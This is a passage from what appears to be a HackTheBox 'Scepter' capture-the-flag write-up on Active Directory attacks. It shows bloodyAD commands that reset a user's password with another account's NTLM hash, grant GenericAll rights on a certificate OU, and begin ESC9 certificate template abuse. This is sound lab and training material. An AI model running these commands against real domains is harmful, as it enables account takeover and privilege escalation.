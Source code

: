 

## ForceChangePassword ACL Abuse

Setting password for `a.carter`

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -u d.baker -p ':18b5fb0d99e7a475316213c15b6f22ce' set password a.carter 'Password123.!'

```


## genericAll ACL Abuse

`a.carter` user has `genericAll` rights on `StaffAccessCertificate` template. To verify that i gave `d.baker` genericAll rights on `STAFF ACCESS CERTIFCATE` OU. 

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -u a.carter -p 'Password123.!' add genericAll 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' d.baker
[+] d.baker has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```




## ESC9 Explotitation

The the enrollment requirements should be met defined in `Certificate Name Flag` .

```text
SubjectAltRequireEmail
SubjectRequireDnsAsCn
SubjectRequireEmail
```

